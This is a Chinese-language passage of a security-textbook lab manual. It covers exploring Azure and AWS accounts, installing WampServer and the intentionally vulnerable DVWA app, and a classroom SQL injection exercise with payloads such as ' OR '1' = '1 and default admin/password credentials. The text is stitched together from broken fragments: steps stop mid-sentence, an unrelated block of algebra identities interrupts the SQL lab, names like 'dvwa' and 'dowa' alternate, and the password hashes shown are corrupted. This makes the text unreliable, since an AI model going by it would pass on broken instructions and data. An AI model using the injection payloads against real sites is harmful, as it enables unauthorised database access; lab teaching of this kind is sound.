




## 第 18 章 云计算

### 实验练习

- 18.01 Microsoft Azure 培训
- 18.02 探索 Microsoft Azure
- 18.03 AWS Educate 和 AWS 培训与认证
- 18.04 探索 AWS

### 实验分析

### 关键术语测验

在 https://csrc.nist.gov/publications/detail/sp/800-145/final， 国家标准与技术研究所（NIST）对云计算的定义如下：

云计算是一种模型，可实现无处不在、便捷、按需的网络访问共享的、可配置的计算资源池（例如网络、服务器、存储、应用程序和服务），这些资源可以快速配置并在最少的管理工作或服务提供商交互的情况下释放。此云模型由五个基本特征、三种服务模型和四种部署模型组成。

云计算在 NIST 特刊 800-145 中进一步说明（可在 https://nvlpubs.nist.gov/nistpubs/Legacy/SP/nistspecialpublication800-145.pdf 获取）：

- i. 你将看到以下消息：“您的账户已全部设置好。请完成反馈以继续。” 在“还有其他想让我们知道的吗？” 框中，输入任何内容并单击提交按钮。你将被带到 Microsoft Azure 快速入门中心，如图 18-1 所示。

**图 18-1 快速入门中心**

### 步骤 2 现在你已全部设置好，将探索 Microsoft Azure 快速入门中心。

- a. 如果你是从上一步继续，请单击 Quickstart Center 上方的 Home 链接。如果不是从上一步继续，请前往 https://portal.azure.com/，如图 18-2 所示。



**图 18-2 Azure 主页**

你会注意到一个通知，说明你有 200.00 美元的 Azure 服务额度。在探索各种资源时请记住这一点，这些资源都与相关成本相关联。

- b. 单击 Azure 服务下的第一个选项“创建资源”。

- c. 单击左侧边栏菜单上 Azure Marketplace 的每个类别，如图 18-3 所示。这些类别包括以下内容：AI + 机器学习、分析、区块链、计算、容器、数据库、开发工具、DevOps、身份、集成、物联网、IT 与管理工具、媒体、迁移、混合现实、监控与诊断、网络、安全、软件即服务（SaaS）、存储和 Web。

```text
Home >
New
Search the Marketplace
Azure Marketplace
See all
- Get started
- Recently created
- AI + Machine Learning
- Analytics
- Blockchain
- Compute
- Containers
- Databases
- Developer Tools
- DevOps
- Identity
- Integration
- Internet of Things
- IT & Management Tools
- Media
- Migration
- Mixed Reality
- Monitoring & Diagnostics
- Networking
- Security
- Software as a Service (SaaS)
- Storage
- Web

Popular
- Windows Server 2016 Datacenter
  - Quickstarts + tutorials
- Ubuntu Server 18.04 LTS
  - Learn more
- Web App
  - Quickstarts + tutorials
- SQL Database
  - Quickstarts + tutorials
- Function App
  - Quickstarts + tutorials
- Azure Cosmos DB
  - Quickstarts + tutorials
- Kubernetes Service
  - Quickstarts + tutorials
- DevOps Starter
  - Quickstarts + tutorials
- Storage account
  - Quickstarts + tutorials
```

**图 18-3 Azure Marketplace**

某些类别中的项目具有“快速入门 + 教程”链接，而其他项目具有“了解更多”链接。探索所有类别中的所有项目。

- d. 从五个不同类别中选择任意五个资源并解释为什么通过 Microsoft Azure 使用它们是有优势的。

- e. 可选地，使用你的 200 美元额度或花费更多资金，部署一个或多个资源。

- f. 可选地，在主屏幕上（你可以通过单击顶部蓝色栏左侧的 Microsoft Azure 返回），单击工具部分中的 Microsoft Learn。 在顶部，你可以单击“帮助我们自定义你的路径”链接并按照向导操作以查看相关选择。 在“我们认为你可能会喜欢这些”部分，你可以单击“探索其他热门路径”链接，清除所有筛选器后将显示 2,000 条结果！

**8–10 小时，大约**

### 实验练习 18.03：AWS Educate 和 AWS 培训与认证

来自 https://aws.amazon.com/what-is-aws/：

Amazon Web Services（AWS）是全球最全面、最广泛采用的云平台，提供来自全球数据中心的 175 多项功能齐全的服务。数百万客户——包括增长最快的初创公司、最大型企业和领先的政府机构——都在使用 AWS 以降低成本、提高敏捷性并更快创新。

来自 https://aws.amazon.com/education/awseducate/：

AWS Educate 已在 200 多个国家和地区使用。它连接了 2,400 所机构、超过 10,000 名教育工作者和数百名

在此直接登录。

你可以在此处访问 AWS Educate 学生门户的视频演示。

### 免费 AWS 基础培训

要免费访问我们的基础 AWS 云从业者基础在线学习课程并找到其他自定进度实验，你必须拥有 AWS 账户或 Amazon ID。

- 如果你拥有 AWS 账户，请登录并单击此处以获得这些福利。
- 如果你没有 AWS 账户，请单击此处并按照说明创建 Amazon ID 以访问这些福利。

一旦访问培训与认证门户，请单击“学习库”并搜索“AWS Cloud Practitioner Essentials”以轻松找到并注册 AWS Cloud Practitioner Essentials 在线培训。设置账户后，你可以随时通过单击此处访问 AWS 培训。

再次感谢你参与 AWS Educate，我们希望你喜欢这个项目！

祝你学习顺利，

AWS Educate 团队

- e. 登录 AWS Educate 门户 https://www.awseducate.com/signin/SiteLogin。

- f. 在云计算 101 部分，单击开始按钮，保持英语为默认语言（或根据需要更改），然后单击开始按钮。

- g. 你将进入云计算 101 课程的主页。单击左侧菜单中的模块链接以查看课程的三个模块的具体内容。

**模块 1：简介**

AWS 云计算基础

**模块 2：AWS 云计算服务**


+   AWS 云计算服务介绍
+   AWS 概览
+   AWS 分析服务
+   AWS 计算服务
+   AWS 数据库服务
+   AWS 开发者工具
+   AWS 管理工具
+   AWS 网络和内容分发服务
+   AWS 存储服务
+   模块 3：下一步
+   下一步是什么？
+   路径结束

前两个模块有测验。

点击 Home 链接返回课程主页。

点击 Get Started! 按钮。

列出的时长为 8–10 小时，但至少要完成模块 1。之后请随意继续。

+   h. 完成模块 1 测验。

# Step 2 实际上在 AWS 培训和认证门户中还有更多学习内容。

+   a. 使用批准邮件中提供的链接前往 AWS 培训和认证门户的登录或创建账户页面，或前往 https://www.aws.training/ 并点击左上角的 CREATE ACCOUNT 按钮。
+   b. 在 All Regions 单选按钮默认选择的情况下，点击左侧 Amazon 栏中的 SIGN IN 按钮。
+   c. 在新账户设置屏幕中，填写以下字段的值：First and Last Name、Email、Company、Business Title、Language、Country 和 Time Zone。勾选框以同意 AWS 客户协议并点击底部的 Save 按钮。

d. 您将看到大量视频和电子学习数字培训，类别包括 Cloud Fundamentals、Compute、Machine Learning for Developers、Serverless Computing、Certification Exam Readiness、Networking and Content Delivery、DevOps、Developer Tools、Security、SysOps、Internet of Things (IoT)、Migration and Transfer、以及 Media and Streaming Services。随意访问您想要的任意培训。

60 MINUTES

# Lab Exercise 18.04: Exploring AWS

现在您已经通过云计算和 AWS 的介绍入门，是时候通过创建账户、登录 AWS 并探索提供的资源来继续探索了。

# Learning Objectives

在本实验练习中，您将探索 AWS。完成本实验练习后，您将能够

+   - 浏览 AWS 的菜单
+   - 了解更多关于 AWS 资源的信息

# Lab Materials and Setup

本实验所需的材料有

+   - 《Principles of Computer Security: CompTIA Security+ and Beyond》教科书
+   - 具有互联网连接的网络浏览器
+   - 用于验证的信用卡（将收取 1 美元，3–5 天后会退款）

成功。” 点击 Continue 按钮。

+   e. 选择 Basic Plan（免费）、Developer Plan（每月起价 $29）或 Business Plan（每月起价 $100）。
+   f. 您将看到“Congratulations!” 消息。几分钟后，当您的账户准备就绪时，您将收到确认邮件。
+   g. 点击 Go to the AWS Management Console 按钮。
+   h. 从下拉菜单中选择您的角色和感兴趣的内容。可选地，勾选框以接收有关 AWS 服务及相关产品的最新新闻。点击 Submit 按钮。
+   i. 在 Root user 单选按钮选择的情况下，填写 Root user 电子邮件地址文本框并点击 Next 按钮。
+   j. 填写 Password 字段并点击 Sign In 按钮。将来登录时，您可以前往 https://aws.amazon.com。
+   k. 您现在将看到 AWS 管理控制台。

2d

# Step 2 现在您将探索 AWS 所提供的内容。

+   a. 在“Build a solution”部分探索以下项目（点击 See More 以查看最后三个项目），如 Figure 18-4 所示：

# Build a solution

使用简单向导和自动化工作流开始。

# Launch a virtual machine

使用 EC2
2-3 分钟

# Build a web app

使用 Elastic Beanstalk
6 分钟

# Build using virtual servers

使用 Lightsail
1-2 分钟

# Register a domain

使用 Route 53
3 分钟

# Connect an IoT device

使用 AWS IoT
5 分钟

# Start migrating to AWS

使用 CloudEndure Migration
1-2 分钟

# Start a development project

使用 CodeStar
5 分钟

# Deploy a serverless microservice

使用 Lambda、API Gateway
2 分钟

# Host a static web app

使用 AWS Amplify Console
5 分钟

See less

# FIGURE 18-5 Learn to build

+   - Websites and Web Apps
+   - Storage
+   - Databases
+   - DevOps
+   - Machine Learning
+   - Big Data

点击 See All 以查看更多教程。浏览一下，然后点击右上角的橙色 Sign In to the Console 按钮。

c. 在屏幕顶部，展开 All Services 选择，如 Figure 18-6 所示。

# All services

+   **Compute**
+   - EC2
+   - Lightsail
+   - Lambda
+   - Batch
+   - Elastic Beanstalk
+   - Serverless Application Repository
+   - AWS Outposts
+   - EC2 Image Builder
+   
+   **Developer Tools**
+   - CodeStar
+   - CodeCommit
+   - CodeArtifact
+   - CodeBuild
+   - CodeDeploy
+   - CodePipeline
+   - Cloud9
+   - X-Ray
+   
+   **Machine Learning**
+   - Amazon SageMaker
+   - Amazon Augmented AI
+   - Amazon CodeGuru
+   - Amazon Comprehend
+   - Amazon Forecast
+   - Amazon Fraud Detector
+   - Amazon Kendra
+   - Amazon Lex
+   - Amazon Personalize
+   - Amazon Polly
+   - Amazon Rekognition
+   - Amazon Textract
+   - Amazon Transcribe
+   - Amazon Translate
+   - AWS DeepComposer
+   - AWS DeepLens
+   - AWS DeepRacer
+   
+   **Front-end Web & Mobile**
+   - AWS Amplify
+   - Mobile Hub
+   - AWS AppSync
+   - Device Farm
+   
+   **AR & VR**
+   - Amazon Sumerian
+   
+   **Application Integration**
+   - Step Functions
+   - Amazon AppFlow
+   - Amazon EventBridge
+   - Amazon MQ
+   - Simple Notification Service
+   - Simple Queue Service
+   - SWF
+   
+   **Containers**
+   - ECR
+   - Elastic Container Service
+   - Elastic Kubernetes Service
+   
+   **Customer Enablement**
+   - AWS IQ
+   - Support
+   - Managed Services
+   - Activate for Startups
+   
+   **Customer Engagement**
+   - Amazon Connect
+   - Pinpoint
+   - Simple Email Service
+   
+   **Storage**
+   - S3
+   - EFS
+   - FSx
+   - S3 Glacier
+   - Storage Gateway
+   - AWS Backup
+   
+   **Robotics**
+   - AWS RoboMaker
+   
+   **Analytics**
+   - Athena
+   - Amazon Redshift
+   - EMR
+   - CloudSearch
+   - Elasticsearch Service
+   - Kinesis
+   - QuickSight
+   - Data Pipeline
+   - AWS Data Exchange
+   - AWS Glue
+   - AWS Lake Formation
+   - MSK
+   - AWS Glue DataBrew
+   
+   **Business Applications**
+   - Alexa for Business
+   - Amazon Chime
+   - WorkMail
+   - Amazon Honeycode
+   
+   **Database**
+   - RDS
+   - DynamoDB
+   - ElastiCache
+   - Neptune
+   - Amazon QLDB
+   - Amazon DocumentDB
+   - Amazon Keyspaces
+   - Amazon Timestream
+   
+   **Quantum Technologies**
+   - Amazon Braket
+   
+   **Management & Governance**
+   - AWS Organizations
+   - CloudWatch
+   - AWS Auto Scaling
+   - CloudFormation
+   - CloudTrail
+   - Config
+   - OpsWorks
+   - Service Catalog
+   - Systems Manager
+   - AWS AppConfig
+   - Trusted Advisor
+   - Control Tower
+   - AWS License Manager
+   - AWS Well-Architected Tool
+   - Personal Health Dashboard
+   - AWS Chatbot
+   - Launch Wizard
+   - AWS Compute Optimizer
+   - Resource Groups & Tag Editor
+   
+   **Security, Identity, & Compliance**
+   - IAM
+   - Resource Access Manager
+   - Cognito
+   - Secrets Manager
+   - GuardDuty
+   - Inspector
+   - Amazon Macie
+   - AWS Single Sign-On
+   - Certificate Manager
+   - Key Management Service
+   - CloudHSM
+   - Directory Service
+   - WAF & Shield
+   - AWS Firewall Manager
+   - Artifact
+   - Security Hub
+   - Detective
+   
+   **End User Computing**
+   - WorkSpaces
+   - AppStream 2.0
+   - WorkDocs
+   - WorkLink
+   
+   **Migration & Transfer**
+   - AWS Migration Hub
+   - Application Discovery Service
+   - Database Migration Service
+   - Server Migration Service
+   - AWS Transfer Family
+   - AWS Snow Family
+   - DataSync
+   
+   **Satellite**
+   - Ground Station
+   
+   **Blockchain**
+   - Amazon Managed Blockchain
+   
+   **Internet of Things**
+   - IoT Core
+   - FreeRTOS
+   - IoT 1-Click
+   - IoT Analytics
+   - IoT Device Defender
+   - IoT Device Management
+   - IoT Events
+   - IoT Greengrass
+   - IoT SiteWise
+   - IoT Things Graph
+   
+   **Networking & Content Delivery**
+   - VPC
+   - CloudFront
+   - Route 53
+   - API Gateway
+   - Direct Connect
+   - AWS App Mesh
+   - AWS Cloud Map
+   - Global Accelerator
+   
+   **Media Services**
+   - Kinesis Video Streams
+   - MediaConnect
+   - MediaConvert
+   - MediaLive
+   - MediaPackage
+   - MediaStore
+   - MediaTailor
+   - Elemental Appliances & Software
+   - Amazon Interactive Video Service
+   - Elastic Transcoder
+   
+   **AWS Cost Management**
+   - AWS Cost Explorer
+   - AWS Budgets
+   - AWS Marketplace
+   - Subscriptions
+   
+   **Game Development**
+   - Amazon GameLift


**图 18-6 AWS 服务**

你将看到以下类别中的大量服务：
计算、容器、存储、数据库、迁移与传输、
网络与内容分发、开发人员工具、客户
赋能、机器人技术、区块链、卫星、量子技术、
管理与治理、媒体服务、机器学习、
分析、安全、身份与合规、AWS 成本
管理、前端 Web 与移动、AR 与 VR、应用
集成、客户互动、业务应用、最终用户
计算以及物联网。

d. 从五个不同类别中任选五项服务，并解释通过 AWS 使用它们有何优势。

## 实验分析

1. 什么是云计算？为什么它在当今如此重要？

2. Azure 与 AWS 有哪些异同？

3. 说“没有云，那只是别人的计算机”有什么问题？

## 关键术语测验

使用列表中的术语完成下列句子。

- IaaS
- PaaS
- SaaS

https://owasp.org/www-project-top-ten/。在本书出版时，该列表上排名第一的项目是注入，这正是本章的重点。

30 分钟

## 实验 19.01：配置 WampServer 与 DVWA

WampServer 是一个 Web 开发平台。WAMP 包含创建动态 Web 应用所需的一切：

- W：Windows 操作系统（这表示它运行在什么操作系统上，而不是它自带该系统。）
- A：Apache HTTP Server Web 服务器
- M：MySQL 和 MariaDB 关系数据库管理系统（RDBMS）
- P：PHP 服务器端脚本语言

WampServer 是免费的，并根据 GNU 通用公共许可证（GPL）发布。其变体包括用于 Linux 的 LAMP 和用于 macOS 的 MAMP。

以下是来自 www.dvwa.co.uk/ 的 DVWA 描述：

> Damn Vulnerable Web App（DVWA）是一个 PHP/MySQL Web 应用，它确实十分脆弱。其主要目标是帮助安全专业人员在合法环境中测试其技能和工具，帮助 Web 开发者更好地理解保护 Web 应用的过程，并帮助教师/学生在课堂环境中教授/学习 Web 应用安全。

### 学习目标

在本实验中，你将下载、安装并配置 WampServer 并

软件包（Visual C++ 2008 SP1）时，应使用 Google 搜索新的官方 Microsoft 链接。或者，按照安装程序屏幕末尾的说明（从“如果你使用的是 64 位 Windows...”开始），如图 19-2 所示。



**图 19-2 WampServer 安装信息**

### 步骤 3 完成安装。

- a. 返回 Wampserver 安装程序，在确认所有必需元素都已就绪后，单击“Next >”按钮。保持默认的目标位置，单击“Next >”按钮。在“Ready To Install”屏幕上单击“Install”按钮。随后系统会询问：“是否要选择系统中安装的其他浏览器？”

  如果你没有 Google Chrome 或 Mozilla Firefox 浏览器，请立即下载并安装其中一个或两个：

  - Google Chrome: www.google.com/chrome/
  - Mozilla Firefox: www.mozilla.org/en-US/firefox/new/

- b. 回到 Wampserver 安装程序，在回答浏览器问题时，单击“Yes”按钮，浏览到 `C:\Program Files (x86)\Google\Chrome\Application` 或 `C:\Program Files\Google\Chrome\Application`（你的 Chrome 可执行文件将存储在这两个位置之一），然后点击 chrome.exe 以选择 Chrome。或者，浏览到 `C:\Program Files\Mozilla Firefox`，然后点击 firefox.exe 以选择 Firefox。

- c. 当提示“是否要选择系统中安装的其他文本编辑器？”时，单击“No”按钮。阅读下一屏幕的信息，单击“Next >”按钮，然后在安装程序的最后屏幕上单击“Finish”按钮。

### 步骤 4 启动 WampServer。

- a. 通过桌面上的快捷方式启动 Wampserver64，或者单击“开始”按钮，或在搜索框中输入 Wampserver64 并选择 Wampserver64。

- b. 你会在任务栏的通知区域看到 WampServer 图标（如果看不到 WampServer 图标，请单击箭头以展开图标列表）。它应该会变为绿色，这意味着一切就绪！单击它打开程序菜单，如图 19-3 所示。

标题栏；MariaDB 是 MySQL 的一个分支），依次输入并回车执行以下每一行（如图 19-6 所示），以创建 dvwa 数据库、创建 dvwa 用户、授予 dvwa 用户所有权限，并刷新（重新加载）授权表中的权限。这些行以及接下来的段落直接来自 dvwa 文件夹中的 README.md 文件。



**图 19-6 设置数据库、用户和用户权限**

注意，如果你使用的是 MariaDB 而非 MySQL（Kali Linux 中默认是 MariaDB），那么你不能使用数据库的 root 用户，必须创建一个新的数据库用户。为此，以 root 用户身份连接到数据库，然后使用以下命令：

```
create database dvwa;
create user dvwa@localhost identified by 'YES';
grant all on dvwa.* to dvwa@localhost;
flush privileges;
```

### 步骤 9 在配置文件中更改密码。

- a. 右键单击步骤 6d 中的 config.inc.php 文件，选择“打开方式”，单击“更多应用”。向下滚动并选择“记事本”。配置文件应在记事本中打开。



**图 19-8 DVWA 登录页面**

### 步骤 11 提供以下默认凭据，并单击“登录”按钮：

**用户名：** admin

**密码：** password

容易受到 SQL 注入攻击的网站很容易识别：在任何文本输入表单字段中，输入一个单引号并提交。如果返回 SQL 错误消息，则该网站容易受到你接下来将要进行的攻击！

## 学习目标

在本实验中，你将执行 SQL 注入攻击。完成本实验后，你将能够

- 理解 SQL 注入攻击的工作原理
- 执行 SQL 注入攻击
- 提出修复潜在 SQL 注入攻击的建议

## 实验材料与准备

本实验所需的材料如下

- 教材：*《计算机安全原理：CompTIA Security+ 及进阶》*
- 一份完整完成的实验 19.01，所有必要的程序和文件均已就位
- 一个可连接互联网的 Web 浏览器

## 开始操作！

注意，在尝试本实验之前，你需要完整完成实验 19.01。如果你是从实验 19.01 继续进行的，那么一切就绪。如果你中途休息了一下，或者只是想重新创建初始步骤，请执行以下操作：

1. 启动 WampServer。
2. 从 WampServer 菜单打开 MariaDB 控制台，并使用空白密码登录。
3. 访问 http://127.0.0.1/dvwa/login.php。
4. 使用用户名：**admin** 和密码：**password** 登录。
5. 单击 DVWA Security 菜单项，将 Impossible 下拉设置改为 Low，并单击 Submit 按钮。
6. 单击 SQL Injection 菜单项。


### 步骤 1

SQL 不区分大小写，但最佳实践是将关键字大写。（尽管在取自 README.md 文件的四条命令 [图 19-6] 中，所有内容都是小写。）

在 MariaDB 控制台中，输入下面列出并如图 19-9 所示的命令。我为每条命令都附上了一个链接，指向其描述，并附有每条命令功能的简短说明。

```
c:\wamp64\bin\mariadb\mariadb10.4.10\bin\mysql.exe
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 30
Server version: 10.4.10-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```

```
MariaDB [(none)]> SHOW DATABASES;
```

| Database           |
|--------------------|
| dvwa               |
| information_schema |
| mysql              |
| performance_schema |
| test               |

5 rows in set (0.001 sec)

```
MariaDB [(none)]> USE dvwa;
Database changed
MariaDB [dvwa]> SHOW TABLES;
```

| Tables_in_dvwa |
|----------------|
| guestbook      |
| users          |

2 rows in set (0.001 sec)

```
MariaDB [dvwa]> DESCRIBE users;
```

| Field        | Type          | Null | Key | Default           | Extra                      |
|--------------|---------------|------|-----|-------------------|----------------------------|
| user_id      | int(6)        | NO   | PRI | NULL              |                            |
| first_name   | varchar(15)   | YES  |     | NULL              |                            |
| last_name    | varchar(15)   | YES  |     | NULL              |                            |
| user         | varchar(15)   | YES  |     | NULL              |                            |
| password     | varchar(32)   | YES  |     | NULL              |                            |
| avatar       | varchar(70)   | YES  |     | NULL              |                            |
| last_login   | timestamp     | NO   |     | current_timestamp() | on update current_timestamp() |
| failed_login | int(3)        | YES  |     | NULL              |                            |

8 rows in set (0.045 sec)

**图 19-9 检查 dvwa 数据库中的 users 表**


## 常见代数恒等式

- **和的平方：** $(a+b)^2 = a^2 + 2ab + b^2$
- **差的平方：** $(a-b)^2 = a^2 - 2ab + b^2$
- **平方差：** $a^2 - b^2 = (a+b)(a-b)$
- **和的立方：** $(a+b)^3 = a^3 + 3a^2b + 3ab^2 + b^3$
- **差的立方：** $(a-b)^3 = a^3 - 3a^2b + 3ab^2 - b^3$
- **立方差：** $a^3 - b^3 = (a-b)(a^2 + ab + b^2)$
- **立方和：** $a^3 + b^3 = (a+b)(a^2 - ab + b^2)$

```
MariaDB [dowa]> SELECT * FROM users;
```

| user_id | first_name | last_name | user | password | avatar | last_login | failed_login |
|---|---|---|---|---|---|---|---|
| 1 | admin | admin | admin | 5f4dc3b5aae56fd61d8327db882cf99 | /dowa/hackable/users/admin.jpg | 2020-07-06 10:54:50 | 0 |
| 2 | Gordon | Brown | gordonb | e7918c48c38d5120e853679822e03 | /dowa/hackable/users/gordonb.jpg | 2020-07-06 10:54:50 | 0 |
| 3 | Hack | Me | 1337 | 8433e3347e2c3966d0e044ccf9216b | /dowa/hackable/users/1337.jpg | 2020-07-06 10:54:50 | 0 |
| 4 | Pablo | Picasso | pablo | 80107a09f3b5be40cdd3e5d7169e9b7 | /dowa/hackable/users/pablo.jpg | 2020-07-06 10:54:50 | 0 |
| 5 | Bob | Smith | smithy | 5f4dc3b5aae56fd61d8327db882cf99 | /dowa/hackable/users/smithy.jpg | 2020-07-06 10:54:50 | 0 |

5 rows in set (0.001 sec)

```
MariaDB [dowa]>
```

如下所示：

```sql
SELECT first_name 'First name', last_name Surname FROM
users WHERE user_id =
'$ID_SUBMISSION' AND password =
hashFunction('PW_SUBMISSION');
```

这假设提交的密码会被哈希，并且哈希值会被放入查询中。


### 第 5 步

在浏览器的 DVWA 漏洞：SQL 注入页面上，在 User ID 输入框中输入 3，然后点击 Submit 按钮。注意，现在显示的是用户 Hack Me 的信息。实际执行的查询似乎是：

```sql
SELECT first_name 'First name', last_name Surname FROM
users WHERE user_id = '3';
```

现在，在一对单引号之间插入的是 3 而不是 1，这就是我们看到这条特定记录的原因。


### 第 6 步

现在大胆一点，在 User ID 文本框中输入以下内容（注意，w 可以是任意字符）：

```sql
w' OR '1' = '1
```

实际执行的查询似乎是：

```sql
SELECT first_name 'First name', last_name Surname FROM
users WHERE user_id = 'w' OR '1' = '1';
```

这里的 w 是一个虚拟占位值，可以是任意字符，甚至可以不写。两个 1 也可以换成任意内容，同样也可以不写。因此输入甚至可以简单成这样：

```sql
' OR ' ' = '
```

再来看一下这个查询，我们对关键部分加粗，并对输入加下划线：

```sql
SELECT first_name 'First name', last_name Surname FROM
users WHERE user_id = 'w' OR '1' = '1';
```

输入在分号之前结束。这是因为 SQL 语句总是会把引号放在这些位置。w 后面的单引号终止了 user_id 字符串，而 SQL 放在分号前的单引号则终止了等值比较右侧的内容。


### 第 7 步

如果存在密码字段，并且用户名字段中填入了任意内容，那么输入可能是这样的：

```sql
password' OR '1' = '1'
```

简化后的查询可能是这样的：

```sql
SELECT id FROM users WHERE username = 'username' AND password = 'password' OR '1' = '1'
```

AND 会先被处理，因为输入的用户名和密码不正确，所以会产生一个 false。

现在查询被化简为：

```sql
SELECT id FROM users WHERE false OR '1' = '1'
```

之前的表达式已被化简为 false 值。

接下来计算 OR。OR 左边是 false，右边是 true 条件，因此查询现在变成了：

```sql
SELECT id FROM users WHERE true
```

